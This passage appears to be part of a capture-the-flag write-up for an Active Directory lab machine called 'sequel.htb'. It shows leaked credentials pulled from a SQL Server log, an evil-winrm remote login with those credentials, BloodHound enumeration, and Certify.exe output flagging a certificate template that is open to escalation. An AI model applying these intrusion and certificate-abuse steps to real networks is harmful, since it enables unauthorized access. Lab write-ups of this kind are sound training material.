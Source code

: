In the C drive there is a folder SQLServer in which a log file is present which leaks credentials
```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]

```

We can proceed to login as him using evil-winrm

```bash
$ evil-winrm -i sequel.htb -u 'ryan.cooper' -p 'NuclearMosquito3' 
```

Running a bloodhound ingestor
!["Running remote bloddhound ingestor"](assets/bh-ingestor.png)


Opening it in bloodhound we find that Ryan.Cooper is an unrolled member of CERTIFICATE SERVICE DCOM ACCESS

I'll upload Certify.exe to the target machine and see if it finds anything!
```bash
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
```